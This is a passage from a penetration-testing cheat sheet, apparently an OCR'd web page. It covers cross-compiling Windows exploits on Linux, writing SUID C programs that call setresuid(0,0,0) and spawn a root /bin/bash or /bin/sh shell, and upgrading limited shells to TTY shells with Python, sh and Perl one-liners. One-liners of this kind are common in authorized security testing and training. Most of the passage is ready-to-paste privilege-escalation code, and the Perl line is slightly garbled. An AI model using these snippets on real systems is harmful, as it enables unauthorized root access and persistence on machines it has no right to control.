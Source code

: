 ### Compile Windows .exe on Linux

Build / compile windows exploits on Linux, resulting in a .exe file.

| Command | Description |
| --- | --- |
| i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe | Compile windows .exe on Linux |

## **SUID Binary**

Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and pate examples for various shells:

### SUID C Shell for /bin/bash

int main(void){ setresuid(0, 0, 0); system("/bin/bash");}

### SUID C Shell for /bin/sh

int main(void){ setresuid(0, 0, 0); system("/bin/sh");}

### Building the SUID Shell binary

gcc -o suid suid.c
For 32 bit:

gcc -m32 -o suid suid.c

## **Reverse Shells**

See [Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/) for a list of useful Reverse Shells.

## **TTY Shells**

Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.

### Python TTY Shell Trick

python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')

### Spawn Interactive sh shell

/bin/sh -i

### Spawn Perl TTY Shell

exec "/bin/sh";perl —e 'exec "/bin/sh";'
